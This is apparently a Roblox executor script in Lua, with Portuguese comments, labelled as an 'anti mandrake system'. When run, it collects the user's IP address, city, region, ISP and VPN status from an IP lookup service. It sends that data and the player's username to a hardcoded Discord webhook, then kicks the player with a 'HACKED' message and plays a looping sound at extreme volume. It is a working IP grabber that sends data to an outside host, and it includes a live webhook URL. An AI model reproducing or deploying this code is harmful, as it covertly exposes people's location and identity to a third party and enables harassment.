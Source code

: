 local request = http_request or request or syn and syn.request or http and http.request
if not request then
    warn("Executor não suporta HTTP Requests.")
    return
end

local function getIPInfo()
    local success, response = pcall(function()
        return request({
            Url = "http://ip-api.com/json/?fields=status,proxy,hosting,vpn,query,country,regionName,city,isp",
            Method = "GET"
        })
    end)

    if success and response then
        local ipData = game:GetService("HttpService"):JSONDecode(response.Body)
        
        -- Verifica se a API retornou status "success", senão exibe "Não encontrado"
        if ipData.status ~= "success" then
            return {
                query = "Não encontrado",
                country = "Não encontrado",
                regionName = "Não encontrado",
                city = "Não encontrado",
                isp = "Não encontrado",
                vpn = false,
                proxy = false,
                hosting = false
            }
        end
        
        print("IP: " .. ipData.query)
        print("Cidade: " .. ipData.city)
        print("Região: " .. ipData.regionName)
        print("País: " .. ipData.country)
        print("ISP: " .. ipData.isp)
        print("VPN: " .. (ipData.vpn and "SIM" or "NÃO"))
        print("Proxy: " .. (ipData.proxy and "SIM" or "NÃO"))
        print("Datacenter/Hosting: " .. (ipData.hosting and "SIM" or "NÃO"))
        
        return ipData
    else
        warn("Erro ao obter informações do IP")
        return nil
    end
end

local function sendToDiscord(player, ipInfo)
    local Webhook_URL = "https://discord.com/api/webhooks/1347907379605274624/ovqIJ8N0inm07ePe8yeIkvQFbfgU8goH4MKQa5Z2jQR_RviCfi22il7R0nS-QrEdWckW"

    local username = player.Name
    local dateTime = os.date("%d/%m/%Y %H:%M:%S")
    local serverId = game.JobId
    local gameId = game.PlaceId

    local message = string.format([[
**IP - ANTI MANDRAKE SYSTEM** 🚨
-----------------------------------------
👤 **Usuário:** %s
🕒 **Data e Hora:** %s
🌐 **ID do Servidor:** %s
🎮 **ID do Jogo:** %s
🌍 **IP:** %s
📍 **Localização:** %s, %s, %s
🏢 **Provedor:** %s
🛡 **VPN:** %s
🔌 **Proxy:** %s
🏢 **Datacenter/Hosting:** %s
-----------------------------------------
> **Atenção:** Quem está lendo isso é....... 
    ]], 
    username, dateTime, serverId, gameId, 
    ipInfo.query or "Não encontrado",
    ipInfo.city or "Não encontrado",
    ipInfo.regionName or "Não encontrado",
    ipInfo.country or "Não encontrado",
    ipInfo.isp or "Não encontrado",
    ipInfo.vpn and "SIM" or "NÃO",
    ipInfo.proxy and "SIM" or "NÃO",
    ipInfo.hosting and "SIM" or "NÃO"
    )

    local data = { content = message }

    print("Tentando enviar mensagem para o Discord...")
    local success, response = pcall(function()
        return request({
            Url = Webhook_URL,
            Method = "POST",
            Headers = {["Content-Type"] = "application/json"},
            Body = game:GetService("HttpService"):JSONEncode(data)
        })
    end)

    if not success then
        warn("Erro ao enviar para o Discord: " .. tostring(response))
    else
        print("Mensagem enviada para o Discord: " .. response.Body)
    end

    print("--------------------------------------------------------------")
end

local function kickPlayer(ipInfo)
    local player = game.Players.LocalPlayer
    if player then
        wait(3) -- Espera 3 segundos antes de expulsar
        
        local kickMessage = string.format(
            "HACKED💻\n\n🌍 IP: %s\n📍 Localização: %s, %s, %s",
            ipInfo.query or "Não encontrado",
            ipInfo.city or "Não encontrado",
            ipInfo.regionName or "Não encontrado",
            ipInfo.country or "Não encontrado"
        )
        
        player:Kick(kickMessage)
    end
end

local function playAudio()
    local soundId = "rbxassetid://7236490488"
    local volume = 10e10 
    
    local sound = Instance.new("Sound")
    sound.SoundId = soundId
    sound.Volume = volume
    sound.Looped = true
    sound.Parent = game.Workspace

    sound:Play()

    while true do
        wait(0.5)
        sound:Play()
    end
end

-- Executa as funções
local player = game.Players.LocalPlayer
local ipInfo = getIPInfo()

if ipInfo then
    sendToDiscord(player, ipInfo)
    kickPlayer(ipInfo) -- Agora o kick exibe "Suas Informações", IP e localização corretamente
    playAudio()
else
    warn("Não foi possível obter informações do IP. O kick não será executado.")
end

